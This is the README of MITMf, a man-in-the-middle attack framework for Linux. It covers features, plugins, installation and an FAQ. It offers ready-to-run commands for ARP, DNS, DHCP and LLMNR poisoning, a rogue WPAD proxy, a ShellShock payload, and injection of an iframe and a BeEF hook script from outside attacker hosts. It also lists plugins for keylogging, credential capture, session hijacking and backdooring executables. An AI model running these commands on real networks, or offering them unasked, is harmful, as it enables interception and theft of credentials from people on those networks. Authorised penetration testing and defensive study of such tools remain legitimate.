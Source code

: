 ![Supported Python versions](https://img.shields.io/badge/python-2.7-blue.svg)
![Latest Version](https://img.shields.io/badge/mitmf-0.9.8%20--%20The%20Dark%20Side-red.svg)
![Supported OS](https://img.shields.io/badge/Supported%20OS-Linux-yellow.svg)
[![Code Climate](https://codeclimate.com/github/byt3bl33d3r/MITMf/badges/gpa.svg)](https://codeclimate.com/github/byt3bl33d3r/MITMf)

#MITMf

Framework for Man-In-The-Middle attacks

Quick tutorials, examples and developer updates at: https://byt3bl33d3r.github.io

This tool is based on [sergio-proxy](https://github.com/supernothing/sergio-proxy) and is an attempt to revive and update the project.

Contact me at:
- Twitter: @byt3bl33d3r
- IRC on Freenode: #MITMf
- Email: byt3bl33d3r@gmail.com

**Before submitting issues, please read the [FAQ](#faq) and [CONTRIBUTING.md](CONTRIBUTING.md).**

Description
============
MITMf aims to provide a one-stop-shop for Man-In-The-Middle and network attacks while updating and improving
existing attacks and techniques.

Originally built to address the significant shortcomings of other tools (e.g Ettercap, Mallory), it's been almost completely 
re-written from scratch to provide a modular and easily extendible framework that anyone can use to implement their own MITM attack.

Main Features
=============

- The framework contains a built-in SMB, HTTP and DNS server that can be controlled and used by the various plugins it also contains a modified version of the SSLStrip proxy that allows for HTTP modification and a partial HSTS bypass.

- As of version 0.9.8, MITMf supports active packet filtering and manipulation (basically what etterfilters did, only better),
allowing users to modify any type of traffic or protocol.

- The configuration file can be edited on-the-fly while MITMf is running and the changes will be passed down through the framework, this allows you to tweak settings of plugins and servers while performing an attack.

- MITMf will capture FTP, IRC, POP, IMAP, Telnet, SMTP, SNMP (community strings), NTLMv1/v2 (all supported protocols like HTTP, SMB, LDAP etc.) and Kerberos credentials by using [Net-Creds](https://github.com/DanMcInerney/net-creds), which is run on startup.

- [Responder](https://github.com/SpiderLabs/Responder) integration allows for LLMNR, NBT-NS and MDNS poisoning a rogue WPAD rouge server support.

Examples
========

- The most basic usage, just starts the HTTP proxy SMB,DNS,HTTP servers and Net-Creds on interface ```enp3s0```:
```python mitmf.py -i enp3s0```

- ARP poison 192.168.1.0/24 with the gateway at 192.168.1.1 using the **Spoof** plugin:
```python mitmf.py -i enp3s0 --spoof --arp --target 192.168.1.0/24 --gateway 192.168.1.1```

- Same as above + a WPAD rougue proxy server using the **Responder** plugin:
```python mitmf.py -i enp3s0 --spoof --arp --target 192.168.0.0/24 --gateway 192.168.1.1 --responder --wpad```

- Enable DNS spoofing while ARP poisoning (Domains to spoof are pulled from the config file):
```python mitmf.py -i enp3s0 --spoof --dns --arp --target 192.168.1.0/24 --gateway 192.168.1.1```

- Enable LLMNR/NBTNS/MDNS spoofing:
```python mitmf.py -i enp3s0 --responder --wredir --nbtns```

- Enable DHCP spoofing (the ip pool and subnet are pulled from the config file):
```python mitmf.py -i enp3s0 --spoof --dhcp```

- Same as above with a ShellShock payload that will be executed if any client is vulnerable:
```python mitmf.py -i enp3s0 --spoof --dhcp --shellshock 'echo 0wn3d'```

- Inject an HTML IFrame using the **Inject** plugin:
```python mitmf.py -i enp3s0 --inject --html-url http://some-evil-website.com```

- Inject a JS script:
```python mitmf.py -i enp3s0 --inject --js-url http://beef:3000/hook.js```

And much much more! Of course you can mix and match almost any plugin together (e.g. ARP spoof + inject + Responder etc..) 

#Currently available plugins

- **HTA Drive-By**     : Injects a fake update notification and prompts clients to download an HTA application
- **SMBTrap**          : Exploits the 'SMB Trap' vulnerability on connected clients
- **ScreenShotter**    : Uses HTML5 Canvas to render an accurate screenshot of a clients browser
- **Responder**        : LLMNR, NBT-NS, WPAD and MDNS poisoner
- **SSLstrip+**        : Partially bypass HSTS
- **Spoof**            : Redirect traffic using ARP, ICMP, DHCP or DNS spoofing
- **BeEFAutorun**      : Autoruns BeEF modules based on a client's OS or browser type
- **AppCachePoison**   : Performs HTML5 App-Cache poisoning attacks 
- **Ferret-NG**        : Transperently hijacks client sessions
- **BrowserProfiler**  : Attempts to enumerate all browser plugins of connected clients
- **FilePwn**          : Backdoor executables sent over HTTP using the Backdoor Factory and BDFProxy
- **Inject**           : Inject arbitrary content into HTML content
- **BrowserSniper**    : Performs drive-by attacks on clients with out-of-date browser plugins
- **JSkeylogger**      : Injects a Javascript keylogger into a client's webpages
- **Replace**          : Replace arbitary content in HTML content
- **SMBAuth**          : Evoke SMB challenge-response authentication attempts
- **Upsidedownternet** : Flips images 180 degrees

How to install on Kali
======================

```apt-get install mitmf```

**Currently Kali has a very old version of MITMf in its repos, read the [Installation](#installation) section to get the latest version**

Installation
============

- Clone this repository
- ```apt-get install build-essential python-dev libnetfilter-queue-dev``` for active packet filtering/modification
- Run the ```setup.sh``` script
- Run the command ```pip install --upgrade -r requirements.txt``` to install all Python dependencies

**Note:** on Kali, Debian (and possibly Ubuntu): If pip complains about ```pcap.h``` missing, install the ```libpcap0.8-dev``` and ```python-pypcap``` packages and try again

**Note 2:** If ```netfilterqueue``` fails to compile, install the ```libnetfilter-queue-dev``` package

FAQ
===
- **Is Windows supported?**
- Nope, don't think it will ever be

- **Is OSX supported?**
- Initial compatibility has been introduced in 0.9.8, still needs some testing, find anything broken submit a PR or open an issue ticket!

- **I can't install package X because of an error!**
- Try installing the package via ```pip``` or your distro's package manager. This *isn't* a problem with MITMf.

- **How do I install package X?**
- Please read the [installation](#installation) guide.

- **I get an ImportError when launching MITMf!**
- Please read the [installation](#installation) guide.

- **Dude, no documentation?**
- The docs are a work in progress at the moment, once the framework hits 1.0 I will push them to the wiki
